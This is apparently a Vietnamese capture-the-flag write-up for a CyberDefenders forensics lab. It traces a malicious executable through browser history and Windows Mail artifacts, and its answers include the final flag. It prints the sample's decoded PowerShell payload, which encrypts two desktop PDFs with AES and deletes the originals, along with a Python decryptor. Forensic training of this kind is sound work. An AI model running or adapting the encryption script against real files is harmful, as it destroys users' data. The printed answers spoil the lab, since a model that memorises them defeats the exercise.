

# Slient Breach


## Solution

>Q1. What is the MD5 hash of the potentially malicious EXE file the user downloaded?

Nhận được file `ad1`, load vô FTK imager tìm thấy 1 file `exe` khá sú



`Answer: 336A7CF476EBC7548C93507339196ABB`

>Q2. What is the URL from which the file was downloaded?

Truy cập vào `History` của  `Microsoft Edge` bằng `DB SQlite`


`Answer: http://192.168.16.128:8000/IMF-Info.pdf.exe`

>Q3. What application did the user use to download this file?

Tại câu trên

`Answer: Microsoft Edge`

>Q4. By examining Windows Mail artifacts, we found an email address mentioning three IP addresses of servers that are at risk or compromised. What are the IP addresses?

Trước hết cần xác định xem dịch vụ email nào đã được chạy trên máy, vì mình không thấy thư mục `windows` nên mình bỏ hướng đi check trong `prefetch`. Thay vào đó mình sẽ đi kiểm tra trong `NTUSER.DAT` hive, cụ thể là trong key `Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\
`


Sau đó sẽ đi trích xuất file `HxStore.hxd` tại path `C:\Users\AppData\Local\Packages`


File này được sinh ra bằng `Windows Mail`, lưu ở định dạng nhị phân, không theo chuẩn `EML/MBOX`, nên mình sẽ dùng strings để đọc file


`Answer: 145.67.29.88, 212.33.10.112, 192.168.16.128`

>Q4. By examining the malicious executable, we found that it uses an obfuscated PowerShell script to decrypt specific files. What predefined password does the script use for encryption?

Phân tích file `exe` kia mình dùng strings cho nhanh vì reverse mất khá nhiều thời gian


Đoạn mã pwsh khá đơn giản, giải mã chuỗi base64 bị đảo ngược và thực thi nó trực tiếp bằng `Invoke-Expression`. Và đây là nội dung sau khi decode

```powershell
$password = "Imf!nfo#2025Sec$"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

# List of input files
$inputFiles = @(
    "C:\\Users\\ethan\\Desktop\\IMF-Secret.pdf",
    "C:\\Users\\ethan\\Desktop\\IMF-Mission.pdf"
)

foreach ($inputFile in $inputFiles) {
    $outputFile = $inputFile -replace '\.pdf$', '.enc'

    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Key = $key
    $aes.IV = $iv
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $encryptor = $aes.CreateEncryptor()

    $plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

    $outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

    $cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
    $cryptoStream.FlushFinalBlock()

    $cryptoStream.Close()
    $outStream.Close()

    Remove-Item $inputFile -Force
}

```
Thấy được ngay mật khẩu trong script

`Answer: Imf!nfo#2025Sec$`

>Q5. After identifying how the script works, decrypt the files and submit the secret string.

Script trên thực hiện mã hóa 2 file `.pdf` thành 2 file `.enc` bằng `AES-CBC-Padding` với `key` và `iv` đã có sẵn trong đoạn code. Tiến hành decrypt thôi

```python
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Thiết lập mật khẩu và các tham số giải mã
password = "Imf!nfo#2025Sec$"
salt = b"\x01\x02\x03\x04\x05\x06\x07\x08"
iterations = 10000

# Tạo key và IV từ password
data = PBKDF2(password, salt, dkLen=48, count=iterations)
key = data[:32]
iv = data[32:]

# Mở file đã mã hóa
with open("IMF-Mission.enc", "rb") as f:
    encrypted = f.read()

# Giải mã nội dung
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = unpad(cipher.decrypt(encrypted), AES.block_size)

# Ghi ra file PDF
with open("IMF-Mission.pdf", "wb") as f:
    f.write(decrypted)
```


`Answer: CyberDefenders{N3v3r_eX3cuTe_F!l3$_dOwnL0ded_fr0m_M@lic10u5_$erV3r}`


